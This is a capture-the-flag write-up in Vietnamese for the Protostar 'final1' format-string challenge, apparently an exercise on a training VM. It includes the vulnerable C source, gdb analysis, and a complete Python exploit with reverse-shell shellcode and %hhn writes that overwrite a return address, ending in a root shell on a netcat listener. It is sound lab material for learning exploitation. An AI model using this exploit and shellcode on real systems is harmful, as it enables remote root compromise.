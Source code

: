 # **final1**
## Source code
```
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

```

- Lắng nghe ở cổng 2994.
- giao thức:
  - username ...
  - login ...
    - login mà chưa có username => "invalid protocol\n"
    - login mà đã có username: server chạy lệnh "snprintf()" và "syslog()"
- Ta có thể format attack qua hàm syslog() do cú pháp hàm syslog là:
  ```
  void syslog(int priority, const char *format, ...);
  ```
## Tools
- gdb
- python
- netcat

## Phân tích chương trình
Dùng gdb để debug final1:
- set follow-fork-mode child
- set disassembly-flavor intel
- define hook-stop
  - x/3i $eip
  - x/64w $esp
  - end

Dùng ```nc 127.0.0.1 2994``` để connect tới server:
```
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username long
[final1] $ login password
```

Quan sát gdb:
- breakpoint ngay sau hàm snprintf(), thấy các bytes ở địa chỉ 0xbffff4d0 thay đổi:
  ```
  (gdb) 
  0x80498d9 <logit+63>:   lea    eax,[ebp-0x208]
  0x80498df <logit+69>:   mov    DWORD PTR [esp+0x4],eax
  0x80498e3 <logit+73>:   mov    DWORD PTR [esp],0xf
  0xbffff4b0:     0xbffff4d0      0x00000200      0x08049ee4      0x0804a2a0
  0xbffff4c0:     0x0804a220      0xbffff6f6      0xb7fd7ff4      0xbffff548
  0xbffff4d0:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
  0xbffff4e0:     0x312e302e      0x3837333a      0x61203533      0x6c5b2073
  0xbffff4f0:     0x5d676e6f      0x74697720      0x61702068      0x6f777373
  ```
- x/s 0xbffff4d0 để in ra một string ở địa chỉ 0xbffff4d0 => đây đúng là địa chỉ bắt đầu buffer:
  ```
  (gdb) x/s 0xbffff4d0
  0xbffff4d0:      "Login from 127.0.0.1:37835 as [long] with password [password]\n"
  ```

Thử lại với username và password có chứa string format:
```
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username %x%s%d
[final1] $ login %124x%4$hhn
```
Quan sát buffer:
```
(gdb) x/s 0xbffff4d0
0xbffff4d0:      "Login from 127.0.0.1:37836 as [%x%s%d] with password [%124x%4$hhn]\n"
```
Mà buffer được pass trực tiếp vào hàm syslog() => format attack

## Exploit

Sử dụng kĩ thuật format attack như trong format3:
  - Sử dụng shellcode reversed shell như final0
  - Để shell code ở username
  - Sử dụng password chứa string format thích hợp để thay đổi return address thành địa chỉ của shellcode

Sử dụng gdb tìm được return address của logit() ở stack 0xbffff6dc có giá trị là 0x080499ef

Thử thay shellcode vào username
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2994))

data = s.recv(1024)
print(data)

s.send("username " + shellcode + "\n")
data = s.recv(1024)
print(data)

s.send("login password\n")
data = s.recv(1024)
print(data)

s.close()
```
Quan sát stack, thấy shellcode ở địa chỉ 0xbffff4ef:

<img src="pictures/shellcode_address.png">

Ta cần chỉnh sửa return address ở stack 0xbffff6dc đang có giá trị 0x080499ef thành địa chỉ của shellcode là 0xbffff4ef:
- Tại địa chỉ 0xbfff6dc: đang là ef => giữ nguyên
- Tại địa chỉ 0xbfff6dd: đang là 99 => đổi thành f4
- Tại địa chỉ 0xbfff6de: đang là 04 => đổi thành ff
- Tại địa chỉ 0xbfff6df: đang là 08 => đổi thành bf

Final python script:
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2994))

data = s.recv(1024)
print(data)

s.send("username " + shellcode + "\n")
data = s.recv(1024)
print(data)

s.send("login a" + "\xdd\xf6\xff\xbf" + "\xde\xf6\xff\xbf" + "\xdf\xf6\xff\xbf" + "%23x%48$hhn" + "%53x%46$hhn" + "%11x%47$hhn" + "\n")
data = s.recv(1024)
print(data)

s.close()
```
Trong đó:
- shellcode để ở username
- địa chỉ của 3 bytes cần thay đổi đưa vào stack thông qua "login"
- "%23x%48$hhn":
  - word thứ 48 trong stack là một trong các địa chỉ chúng ta cho vào stack: "\xdf\xf6\xff\xbf"
  - số ký tự trước đó + 23 = 0xbf
  => sửa byte ở 0xbffff6df thành 0xbf
- "%53x%46$hhn":
  - tương tự word thứ 46 trong stack là "\xdd\xf6\xff\xbf"
  - số ký tự trước đó + 53 = 0xf4
  => sửa byte ở 0xbffff6dd thành 0xf4
- "%11x%47$hhn":
  - tương tự word thứ 47 trong stack là "\xde\xf6\xff\xbf"
  - số ký tự trước đó + 11 = 0xff
  => sửa byte ở 0xbffff6de thành 0xff

=> sửa được return address của hàm logit() thành địa chỉ shellcode
Kết quả:
```
$ nc -l -p 4444
whoami
root
```

# References
